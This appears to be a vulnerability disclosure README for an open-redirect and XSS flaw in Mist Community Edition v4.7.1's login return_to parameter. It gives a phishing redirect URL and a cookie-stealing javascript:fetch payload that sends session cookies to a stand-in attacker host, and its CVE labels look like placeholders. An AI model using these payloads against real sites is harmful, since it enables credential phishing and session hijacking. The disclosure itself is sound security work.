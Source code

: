 # CVE-2025-MIST-REDIRECT-XSS  
## Open Redirect Leading to XSS and Malicious Site Redirects

## 📜 Description
**Mist Community Edition (CE) v4.7.1** contains an **Open Redirect** vulnerability within its authentication system, which can be exploited to execute **Cross-Site Scripting (XSS)** attacks or **redirect** users to arbitrary sites. This flaw exists in the `return_to` parameter, responsible for controlling post-login redirection. Attackers can craft malicious login URLs that either redirect users to phishing sites to steal credentials or inject malicious JavaScript that runs within the user's browser context, leading to session hijacking or information theft.

## 📌 Affected Version
- Mist Community Edition (CE) v4.7.1
- Other versions prior to v4.7.1 may also be affected

## ⚠️ Disclaimer
This project is intended for **educational and ethical research purposes only**. Unauthorized testing on systems without explicit permission is illegal. Use responsibly and only on systems you own or have permission to test.

## 💻 Exploit Details

### 🔹 **Exploiting Open Redirect for Phishing or Malicious Site Redirects**
By crafting a malicious login URL, an attacker can trick users into authenticating on Mist and then redirect them to an external phishing site designed to steal credentials. The following example demonstrates such an attack:

```
http://example.com/sign-in?return_to=http://evil.com
```

After login, the victim is redirected to `http://evil.com`, where an attacker may host a fake Mist login page to harvest credentials.

### 🔹 **Exploiting Open Redirect for XSS**
The vulnerability also allows for direct **JavaScript execution** via the `return_to` parameter, leading to stored XSS attacks. An attacker can craft a URL that executes arbitrary JavaScript in the victim’s browser:

```
http://example.com/sign-in?return_to=javascript:alert(document.cookie);
```

Upon authentication, this payload triggers an alert displaying the victim’s session cookie.
## 🛠️ Steps to Reproduce

### 1️⃣ Open Redirect Exploit
1. Navigate to Mist’s login page and intercept the request.
2. Modify the `return_to` parameter to point to a malicious site (`http://evil.com`).
3. Send the crafted URL to a victim and persuade them to log in.
4. Upon authentication, they are redirected to the attacker's website.

### 2️⃣ XSS Exploit via Open Redirect
1. Craft a malicious login URL using a JavaScript payload:
   ```
   http://example.com/sign-in?return_to=javascript:fetch('http://attacker.com/cookie/'+document.cookie);
   ```
2. Send the URL to a victim.
3. Upon login, their session cookie is sent to the attacker’s C2 server (`http://attacker.com`).

## 🎬 Demonstration Video

<a href="https://www.youtube.com/watch?v=GLZ9JikmWVE" target="_blank">
  <img src="https://img.youtube.com/vi/GLZ9JikmWVE/maxresdefault.jpg"/>
</a>

## 🧑‍💻 Discovery
The **CVE-2025-XXXX** vulnerability was discovered by **Alex Perrakis (Stolichnayer)**.

## 🔗 **References:**
- [Mist CE Github Repository](https://github.com/mistio/mist-ce)

